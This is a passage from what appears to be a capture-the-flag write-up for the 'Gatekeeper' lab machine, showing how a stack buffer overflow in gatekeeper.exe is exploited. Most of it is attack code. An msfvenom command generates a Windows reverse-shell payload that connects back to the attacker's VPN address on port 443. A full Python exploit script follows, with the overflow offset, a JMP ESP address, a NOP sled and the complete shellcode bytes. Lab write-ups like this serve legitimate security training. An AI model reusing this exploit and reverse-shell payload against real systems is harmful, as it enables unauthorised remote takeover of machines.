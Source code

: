```
```

**We have a shell on our debugging virtual machine!**

- Get a shell on the target machine:

**Change the `LHOST` to `tun0` (VPN IP) in shellcode:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f python -v shellcode -b '\x00\x0a'
```

**Change the `ip` variable to the target IP**
```py
ip = '10.10.192.183' # The target IP
```

**Full exploit script:**
```py
#!/usr/bin/env python3

import socket

ip = '10.10.192.183' # The target IP
port = 31337 # The gatekeeper.exe listening port

# Bad characters = \x00, \x0a
# JMP ESP = 080414C3
offset = 146
payload = b'A' * offset + b'\xC3\x14\x04\x08'
nop = b'\x90' * 32
shellcode =  b""
shellcode += b"\xda\xd9\xd9\x74\x24\xf4\x5f\xb8\x8c\xa4\x6e"
shellcode += b"\x15\x31\xc9\xb1\x52\x31\x47\x17\x83\xef\xfc"
shellcode += b"\x03\xcb\xb7\x8c\xe0\x2f\x5f\xd2\x0b\xcf\xa0"
shellcode += b"\xb3\x82\x2a\x91\xf3\xf1\x3f\x82\xc3\x72\x6d"
shellcode += b"\x2f\xaf\xd7\x85\xa4\xdd\xff\xaa\x0d\x6b\x26"
shellcode += b"\x85\x8e\xc0\x1a\x84\x0c\x1b\x4f\x66\x2c\xd4"
shellcode += b"\x82\x67\x69\x09\x6e\x35\x22\x45\xdd\xa9\x47"
shellcode += b"\x13\xde\x42\x1b\xb5\x66\xb7\xec\xb4\x47\x66"
shellcode += b"\x66\xef\x47\x89\xab\x9b\xc1\x91\xa8\xa6\x98"
shellcode += b"\x2a\x1a\x5c\x1b\xfa\x52\x9d\xb0\xc3\x5a\x6c"
shellcode += b"\xc8\x04\x5c\x8f\xbf\x7c\x9e\x32\xb8\xbb\xdc"
shellcode += b"\xe8\x4d\x5f\x46\x7a\xf5\xbb\x76\xaf\x60\x48"
shellcode += b"\x74\x04\xe6\x16\x99\x9b\x2b\x2d\xa5\x10\xca"
shellcode += b"\xe1\x2f\x62\xe9\x25\x6b\x30\x90\x7c\xd1\x97"
shellcode += b"\xad\x9e\xba\x48\x08\xd5\x57\x9c\x21\xb4\x3f"
shellcode += b"\x51\x08\x46\xc0\xfd\x1b\x35\xf2\xa2\xb7\xd1"
shellcode += b"\xbe\x2b\x1e\x26\xc0\x01\xe6\xb8\x3f\xaa\x17"
shellcode += b"\x91\xfb\xfe\x47\x89\x2a\x7f\x0c\x49\xd2\xaa"
shellcode += b"\x83\x19\x7c\x05\x64\xc9\x3c\xf5\x0c\x03\xb3"
shellcode += b"\x2a\x2c\x2c\x19\x43\xc7\xd7\xca\x66\x10\xcc"
shellcode += b"\xf3\x1f\x22\xf2\x02\x5b\xab\x14\x6e\x8b\xfa"
shellcode += b"\x8f\x07\x32\xa7\x5b\xb9\xbb\x7d\x26\xf9\x30"
shellcode += b"\x72\xd7\xb4\xb0\xff\xcb\x21\x31\x4a\xb1\xe4"
shellcode += b"\x4e\x60\xdd\x6b\xdc\xef\x1d\xe5\xfd\xa7\x4a"
shellcode += b"\xa2\x30\xbe\x1e\x5e\x6a\x68\x3c\xa3\xea\x53"
shellcode += b"\x84\x78\xcf\x5a\x05\x0c\x6b\x79\x15\xc8\x74"
shellcode += b"\xc5\x41\x84\x22\x93\x3f\x62\x9d\x55\xe9\x3c"
shellcode += b"\x72\x3c\x7d\xb8\xb8\xff\xfb\xc5\x94\x89\xe3"
shellcode += b"\x74\x41\xcc\x1c\xb8\x05\xd8\x65\xa4\xb5\x27"
shellcode += b"\xbc\x6c\xd5\xc5\x14\x99\x7e\x50\xfd\x20\xe3"
shellcode += b"\x63\x28\x66\x1a\xe0\xd8\x17\xd9\xf8\xa9\x12"
shellcode += b"\xa5\xbe\x42\x6f\xb6\x2a\x64\xdc\xb7\x7e"

```